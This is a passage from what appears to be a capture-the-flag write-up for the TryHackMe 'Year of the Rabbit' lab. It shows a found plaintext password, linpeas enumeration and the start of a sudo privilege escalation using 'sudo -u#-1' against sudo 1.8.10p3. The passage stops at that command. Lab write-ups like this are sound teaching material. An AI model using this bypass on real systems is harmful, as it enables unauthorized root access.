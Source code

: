 /usr/games/s3cr3t
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
/var/www/html/sup3r_s3cr3t_fl4g.php
```

GG.

```
eli@year-of-the-rabbit:~$ cat /usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

lmao. okay, back to business. Logging as her, we get:
```
gwendoline@year-of-the-rabbit:~$ cat user.txt 
THM{pwned}
```

## Priv Esc

So we have 
```
gwendoline@year-of-the-rabbit:/$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

We can access `user.txt` using `vi` for some reason. The issue is, it says everyone except root can make it work. So ... can't really do anything.

At this point, `linpeas` looks like it could help. So, I'll scp that file to the machine. 

```
❯ scp linpeas.sh gwendoline@10.10.186.25:~
gwendoline@10.10.186.25's password: 
linpeas.sh     100%  313KB 188.9KB/s   00:01
```

I'll let it run in the background. So I did not find anything much interesting, except `exim4` that it marked in red. Going up, we have:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                         
Sudo version 1.8.10p3 
```

Very nice. So we have the [exploit](https://www.exploit-db.com/exploits/47502).

```
gwendoline@year-of-the-rabbit:~$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
